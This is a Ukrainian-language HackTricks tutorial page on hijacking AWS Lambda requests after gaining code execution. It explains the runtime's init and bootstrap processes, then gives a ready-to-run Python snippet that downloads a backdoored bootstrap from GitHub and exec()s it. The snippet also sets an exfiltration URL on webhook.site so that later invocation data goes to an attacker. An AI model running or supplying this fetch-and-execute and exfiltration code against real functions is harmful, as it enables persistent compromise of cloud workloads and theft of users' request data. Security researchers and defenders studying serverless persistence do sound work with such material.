 # AWS - Вкрасти запити Lambda

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

## Потік Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** - це процес поза контейнером, який **надсилає** **виклики** до процесу **init**.
2. Процес init слухає на порту **9001**, відкриваючи деякі цікаві кінцеві точки:
* **`/2018-06-01/runtime/invocation/next`** – отримати наступну подію виклику
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – повернути відповідь обробника для виклику
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – повернути помилку виконання
3. **bootstrap.py** має цикл, що отримує виклики з процесу init і викликає код користувача для їх обробки (**`/next`**).
4. Нарешті, **bootstrap.py** надсилає до init **відповідь**

Зверніть увагу, що bootstrap завантажує код користувача як модуль, тому будь-яке виконання коду, яке виконується кодом користувача, насправді відбувається в цьому процесі.

## Вкрадання запитів Lambda

Мета цієї атаки - змусити код користувача виконати шкідливий процес **`bootstrap.py`** всередині процесу **`bootstrap.py`**, який обробляє вразливий запит. Таким чином, **шкідливий bootstrap** процес почне **спілкуватися з процесом init**, щоб обробляти запити, поки **легітимний** bootstrap **потрапить** у пастку, виконуючи шкідливий, тому він не запитуватиме запити у процесу init.

Це проста задача, оскільки код користувача виконується легітимним процесом **`bootstrap.py`**. Тому зловмисник може:

* **Надіслати підроблений результат поточного виклику до процесу init**, щоб init думав, що процес bootstrap чекає на більше виклики.
* Запит має бути надісланий до **`/${invoke-id}/response`**
* invoke-id можна отримати зі стеку легітимного процесу **`bootstrap.py`**, використовуючи модуль [**inspect**](https://docs.python.org/3/library/inspect.html) python (як [пропонувалося тут](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) або просто запитуючи його знову до **`/2018-06-01/runtime/invocation/next`** (як [пропонувалося тут](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Виконати шкідливий **`boostrap.py`**, який оброблятиме наступні виклики
* Для цілей прихованості можливо надіслати параметри викликів lambda до C2, контрольованого зловмисником, а потім обробляти запити як зазвичай.
* Для цієї атаки достатньо отримати оригінальний код **`bootstrap.py`** з системи або [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), додати шкідливий код і запустити його з поточного виклику lambda.

### Кроки атаки

1. Знайти вразливість **RCE**.
2. Згенерувати **шкідливий** **bootstrap** (наприклад, [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Виконати** шкідливий bootstrap.

Ви можете легко виконати ці дії, запустивши:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Для отримання додаткової інформації перегляньте [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Посилання

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перегляньте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
